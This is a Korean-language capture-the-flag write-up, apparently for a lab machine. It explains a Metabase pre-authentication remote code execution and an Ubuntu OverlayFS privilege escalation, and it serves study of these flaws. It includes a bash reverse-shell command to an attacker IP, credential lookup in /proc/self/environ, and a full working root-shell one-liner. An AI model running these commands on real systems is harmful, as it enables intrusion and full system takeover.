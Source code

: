 ### 초기 침투
- metabase 로그인 페이지를 찾음
  - metabase: 오픈 소스 business intelligence tool
  - 임의 코드 실행 취약점을 이용
### exploit
- 사용한 exploit code: https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py
- python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]" 다음과 같은 형태로 실행
  - exploit 하기 위해 data.analytics.htb/api/session/properties 에서 setup-token 값을 읽는다
    - 인증 없이도 액세스 가능한 경우가 많음
  - db 연결을 검증하는 setup-token과 함께 사용할 수 있는 api 엔드포인트를 찾음
  - h2 db 드라이버에서 sql 주입 취약점을 발견
  - db 유효성 검사 단계를 조작하여 임의의 코드 실행
<br></br>
- 해당 토큰과 url, exploit code를 실행하여 전달하고 reverse shell을 얻는다
- python3 main.py -u http://data.analytical.htb -t <토큰 값> -c "bash -i >& /dev/tcp/<ip값>/4444 0>&1"
- proc/self/environ 에서 meat user id와 meta password 값을 찾아 ssh로 접속을 시도 한다.
- user flag 값을 얻을 수 있다.

### 권한 상승
- sudo -l: 실행 안됨
- uname -a: 시스템 커널 과 하드웨어 정보를 확인하여 권한 상승할 정보를 찾는다
<br></br>

- 사용한 방법으로는 우분투 커널 취약점을 이용하여 권한 상승을 시도한다.
  - 사용한 exploit code
  - 해당 명령은 home 디렉터리나 상위 디렉터리에서 실행이 불가
  - 하위 폴더에서 실행해야 함
<br></br>
- 권한 상승 원리
  - overlayFS: 하나의 디렉터리 트리가 다른 디렉터리 트리 위에 겹쳐지는 통합 마운트 파일 시스템
    - 모든 수정 사항이 쓰기 가능한 상위 계층으로 이동, 하위 계층은 읽기 전용
  - 하위 파일을 상위 계층으로 이동하여 공격함
  - 즉 하위 디렉터리에 CAP_SETUID 같은 기능을 상위 계층으로 전달하여 실행하고 루트 권한을 얻는 원리
```
unshare -rm sh -c
"mkdir l u w m &&
cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" &&
u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```
  - unshare -rm sh: 새 사용자 네임스페이스 생성 후 새 파일 시스템 네임 스페이스를 마운트 함
  - mkdir l u w m: 각 이름의 디렉터리 생성
  - cp /u*/b*/p*3 l/: 각 패턴에 맞는 파일 복사
  - setcap cap_setuid+eip l/python3: l에 있는 python3 바이너리에 eip플래그와 함께 cap_setuid를 설정하여 권한을 상승시킴
  - mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: overlay 파일 시스템을 overlay 파일시스템 타입을 이용하여 마운트 함
    - l은 lower layer, w는 work directory, m은 mount point, u는 upper layer로 지정\
  - touch m/*: m 디렉터리에 빈 폴더 생성
<br></br>
- u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")': 명령은 u에 있는 python3 디렉터리(overlay 파일시스템 상위 계층)에서 실행됨
  - root 권한으로 bash shell을 획득 함
- 권한을 얻고 /root/root.txt에 있는 플래그 값을 읽는다.

### 결론
- metabase 취약점
  - db 유효성 검증 단계에서 sql injection을 하여 reverse shell 획득
- 커널 취약점을 이용한 권한 상승
  - namespace 생성
  - namespace-root가 마운트 된 디렉터리에 overlayFS 생성
  - lower layer 파이썬 바이너리에 CAP_SETUID 설정
  - namespace-root가 상위 계층에 파이썬 바이너리를 push함
  - 상위 계층에서 파이썬을 실행하여 루트 권한을 획득
